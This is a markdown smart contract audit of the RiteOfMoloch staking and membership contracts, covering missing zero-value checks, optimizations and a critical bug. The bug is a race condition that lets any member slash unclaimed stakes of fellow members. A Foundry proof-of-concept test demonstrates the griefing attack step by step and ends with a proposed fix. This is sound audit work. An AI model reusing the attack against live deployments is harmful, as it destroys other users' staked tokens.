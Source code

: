 ## Smart Contract Review Notes

### Unclear
- The tests in the original repository imply the the deployer gains `ADMIN` and `OPERATOR` roles on deployment. This is unclear at the moment as those roles seem to be assigned to the factory and not the address initiating the transaction. ( see @dev statements of `testDeploys()` in `RiteOfMoloch.t.sol`)

- week specified but not enforced
```
// enforce that the minimum time is greater than 1 week
require(newMaxTime > 0, "Minimum duration must be greater than 0!"); 
```

### Suggestions
- Insufficient 0-value checks. This might be a feature. Unclear, however it does go against general good practice.

### Concerns
- A new RiteOfMoloch instance can be successfully initialized with `InitData.threshold = 0`.
In such a state `isMember(anyAddress_)` results in a unnaccounted for EVM Error due to the fact that `InitData.membershipCriteria` is 0. Any call to dao will have same result. The same applies for `InitData.stakingAsset`: can be zero and transfersFrom address(0) will error.
- `isMember(address user) public view returns (bool memberStatus)`: return value declared but not used.

### Optimizations

- in `isMember(address user) public view returns (bool memberStatus)` replace
    ```
        if (shares >= minimumShare) {
            return true;
        }

        else {
            return false;
        }
    ```
    with: `if (shares >= minimumShare) memberStatus = true;`

- `_darkRitual()` loop.

- `_claim()` - prioritizes checks-effects-interactions pattern
    ```
    function _claim() internal virtual returns (bool) {
            address msgSender = msg.sender; /// @note false-positive optimisation
            // enforce that the initiate has stake
            require(_staked[msgSender] > 0, "User has no stake!!");

            // store the user's balance
            uint256 balance = _staked[msgSender];

            // delete the balance
            delete _staked[msgSender];

            // delete the deadline timestamp
            delete deadlines[msgSender];

            // log data for this successful claim
            emit Claim(msgSender, balance);

            // return the new member's original stake
            return _token.transfer(msgSender, balance);
        }
    ```
- duplicate functionality. modifier and public function to determine if isMember.
- 


### Critical
- it is currently possible for a member to slash other members; where 'other members' have not (yet) claimed their stake back. The success of this depends on the order of transactions. Slashing does not check if one is or is not a member but if one (still) has a stake.  Members that can be slashed: (1) are members, (2) have not claimed their stake in context: deadline for becoming a member has passed.

    ```
    function testInitiateGriefingAttack() public {

        /// Thesis
        /// Any member can slash fellow members that have not yet claimed their stake back after deadline.
        /// this opens up a race condition  / griefing attack
        /// no gain mostly pain

        /// actors
        address hasClainedUngriefable = address(bytes20(keccak256("hasClaimedUngriefable")));
        address hasNotClaimedGriefable = address(bytes20(keccak256("hasNotClaimedGriefable")));
        address hackermansMember = address(bytes20(keccak256("hackermansMember")));

        /// mainnet cohort initialization params (https://blockscout.com/xdai/mainnet/tx/0xe8123d8b9b4e563bcd1bc8e91f48f6a43087edb787ad96fdd2af693037e7638a)

        address moloch = address(fakeMoloch);
        address implementation = 0x4589b0760baD5fAfBdAD8f3e8227991e8Ee99160;
        address treasury = implementation;
        uint assetAmount = 5000000000000000000000;
        uint maxTime = 15780000;

        address realRaidWhale =  0x187089B33E5812310Ed32A57F53B3fAD0383a19D;
        //raidWhale = realRaidWhale;
        //raidToken = MockRaid(stakingAsset); // ERC20
        address raidTokenAddress = address(raidToken);

        /// fund actors
        vm.startPrank(raidWhale, raidWhale);
        raidToken.transfer(hasClainedUngriefable, assetAmount);
        raidToken.transfer(hasNotClaimedGriefable, assetAmount); 
        raidToken.transfer(hackermansMember, assetAmount); 
        vm.stopPrank();


        InitD = InitData(moloch, raidTokenAddress, moloch, 100, assetAmount, maxTime, "Rite of Moloch - Cohort V", "ROM", "https://ipfs.io/ipfs/Qmd286K6pohQcTKYqnS1YhWrCiS4gz7Xi34sdwMe9USZ7u");  
        address at = riteFactory.createCohort(InitD, 1);
        console.log(at);
        riteOfMoloch = RiteOfMoloch(at);

    
        /// 3 join initiation pack
        vm.prank(hasClainedUngriefable,hasClainedUngriefable);
        raidToken.approve(address(riteOfMoloch), type(uint).max);
        vm.prank(hasClainedUngriefable,hasClainedUngriefable);
        riteOfMoloch.joinInitiation(hasClainedUngriefable);
        assertTrue(riteOfMoloch.isMember(hasClainedUngriefable)); //fake

        skip(100);

        vm.prank(hasNotClaimedGriefable,hasNotClaimedGriefable);
        raidToken.approve(address(riteOfMoloch), type(uint).max);
        vm.prank(hasNotClaimedGriefable,hasNotClaimedGriefable);
        riteOfMoloch.joinInitiation(hasNotClaimedGriefable); 
        assertTrue( riteOfMoloch.isMember(hasNotClaimedGriefable)); //fake

        skip(100);

        vm.prank(hackermansMember,hackermansMember);
        raidToken.approve(address(riteOfMoloch), type(uint).max);
        vm.prank(hackermansMember,hackermansMember);
        riteOfMoloch.joinInitiation(hackermansMember);
        assertTrue( riteOfMoloch.isMember(hackermansMember)); //fake
        ///

        skip(maxTime * 2);

        /// member slashes member that has not claimed yet <---- 'big trouble'
        address[] memory lambs = new address[](3);
        lambs[0] = hasClainedUngriefable;
        lambs[1] = hasNotClaimedGriefable;


        /// hackermaans has 0 slashed balance
        assertTrue(riteOfMoloch.totalSlash(hackermansMember) == 0, "script kiddie already hackermans");

        /// on slash the .totalSlash() is incremented by _staked[initiate];
        /// if both slash assetAmount * number of labs slashed

        /// both lambs are member, but only one claims stake back
        uint bfClaim = raidToken.balanceOf(hasClainedUngriefable);
        vm.prank(hasClainedUngriefable, hasClainedUngriefable);
        riteOfMoloch.claimStake();
        assertTrue(bfClaim < raidToken.balanceOf(hasClainedUngriefable), "claim unsuccessful");
        
        vm.prank(hackermansMember, hackermansMember);
        riteOfMoloch.sacrifice(lambs);

        assertTrue(riteOfMoloch.totalSlash(hackermansMember) == 5000000000000000000000, "script kiddie for real");

        {
        /// check if still initiate
        assertTrue(riteOfMoloch.deadlines(lambs[0]) == 0, "still initialte");
        assertTrue(riteOfMoloch.deadlines(lambs[1]) == 0, "still initiate");
        }
        
        /// Potential Solution:
        // If member continue ! do not slash
        ```